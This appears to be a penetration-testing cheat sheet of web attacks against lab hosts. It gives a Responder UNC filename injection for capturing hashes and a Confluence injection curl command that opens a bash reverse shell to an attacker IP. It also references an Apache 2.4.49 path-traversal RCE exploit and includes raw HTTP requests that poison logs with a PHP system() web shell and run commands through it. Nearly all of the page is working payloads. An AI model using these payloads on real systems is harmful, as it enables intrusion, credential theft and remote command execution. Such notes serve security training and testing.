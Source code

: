 # WEB

## File Upload

Inject responder UNC in a filename header of multipart HTTP POST request
```
Content-Disposition: form-data; name="myFile"; filename="\\\\192.168.45.206\\test"
```

## Confluence RCE

```
curl http://192.168.218.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/
192.168.45.206/4444%200%3E%261%27%29.start%28%29%22%29%7D/ -v
```
## Apache RCE

Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)

https://www.exploit-db.com/exploits/50383

## LFI Log poisoning

Poison a log by injecting UserAgent (linux)
```
GET /meteor/index.php?page=../../../../../../../var/log/apache2/access.log HTTP/1.1
Host: 192.168.196.16
User-Agent: pentest <?php echo system($_GET['cmd']); ?>
Accept: */*
```

Poison a log by injecting UserAgent (windows)
```
GET /meteor/index.php?page=../../../../../../xampp\apache\logs\access.log HTTP/1.1
Host: 192.168.196.193
User-Agent: pentest <?php echo system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
```

Execute commands providing cmd get parameter (adjust log path accoding to your IOS)

```
GET /meteor/index.php?page=../../../../../../../var/log/apache2/access.log&cmd=ps HTTP/1.1
Host: 192.168.196.16
User-Agent: pentest <?php echo system($_GET['cmd']); ?>
Accept: */*
Connection: keep-alive
```


